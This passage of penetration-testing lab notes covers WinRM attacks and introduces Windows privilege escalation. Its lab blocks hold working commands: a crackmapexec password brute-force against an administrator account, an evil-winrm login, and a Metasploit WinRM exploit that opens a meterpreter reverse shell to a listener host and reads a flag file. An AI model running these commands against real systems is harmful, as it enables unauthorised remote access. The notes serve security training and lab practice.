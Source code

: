 #### Description

* Windows Remote Management (WinRM) is a Windows remote amangement protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
* Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.
* WinRM is typically used in the following ways :
  * Remotely access and interact with Windows hosts on a local network.
  * Remotely access and execute commands on Windows systems.
  * Manage and configure Windows systems remotely.
* WinRM typically uses TCP port 5985 and 5986 (HTTPS).
* WinRM implements access control and security for communication between systems through various forms of authentication.
* We can utilize a utility called `crackmapexec` to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.
* We can also utilize a ruby script call `evil-winrm` to obtain a command shell session on the target system.

#### Lab

```bash
john@attack> nmap 10.3.19.37 -p 5985
john@attack> crackmapexec winrm 10.3.19.37 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@attack> evil-winrm.rb -i 10.3.19.37 -u administrator -p tinkerbell

*Evil-WinRM* PS> more C:/flag.txt
```

```bash
john@attack> msfconsole

msf5> use exploit/windows/winrm/winrm_script_exec
msf5> set payload windows/meterpreter/reverse_tcp
msf5> set rhosts 10.3.19.37
msf5> set lhost 10.10.9.3
msf5> set force_vbs true
msf5> set username administrator
msf5> set password tinkerbell
msf5> exploit

meterpreter> getuid
meterpreter> cat c:\\flag.txt
```

### Windows Kernel Exploits

#### Introduction

* Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
* Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall sucess of a penetration test.
* After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
* The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked. Developing your privilege escalation skills will mark you out at a good penetration tester.
